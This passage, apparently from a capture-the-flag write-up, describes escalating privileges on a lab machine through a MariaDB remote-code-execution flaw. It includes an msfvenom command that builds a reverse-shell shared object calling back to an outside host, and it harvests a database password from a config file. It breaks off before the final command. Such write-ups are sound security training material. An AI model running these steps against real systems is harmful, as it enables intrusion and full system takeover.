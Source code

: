 The most interesting was the `mysqld` one, since it was running MySQL as the `root` user. We can first enumerate the `mysql` version present:

```
ipmi-svc@shibboleth:/tmp$ mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

Turns out, this is vulnerable to an RCE exploit:

{% embed url="https://github.com/Al1ex/CVE-2021-27928" %}

To exploit this, we first need to generate a Shared Object file using `msfvenom`:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=5555 -f elf-so -o shell.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: shell.so
```

Then we can transfer this to the machine. Then, we need to find the password for the MySQL instance. I took a look at the `/etc/zabbix` files since the `ipmi_svc` user can read some of the files:

```
ipmi-svc@shibboleth:/etc/zabbix$ ls -la
total 100
drwxr-xr-x  4 root     root      4096 Nov  8  2021 .
drwxr-xr-x 96 root     root      4096 Nov  8  2021 ..
-r--------  1 zabbix   zabbix      33 Apr 24  2021 peeesskay.psk
drwxr-xr-x  2 www-data root      4096 Apr 27  2021 web
-rw-r--r--  1 root     root     15317 May 25  2021 zabbix_agentd.conf
-rw-r--r--  1 root     root     15574 Oct 18  2021 zabbix_agentd.conf.dpkg-dist
drwxr-xr-x  2 root     root      4096 Apr 27  2021 zabbix_agentd.d
-rw-r-----  1 root     ipmi-svc 21863 Apr 24  2021 zabbix_server.conf
-rw-r-----  1 root     ipmi-svc 22306 Oct 18  2021 zabbix_server.conf.dpkg-dist

ipmi-svc@shibboleth:/etc/zabbix$ cat zabbix_server.conf
<TRUNCATED>
DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
<TRUNCATED>
```

Great! Now we have the creds needed. We just need to login using those credentials and run this command:
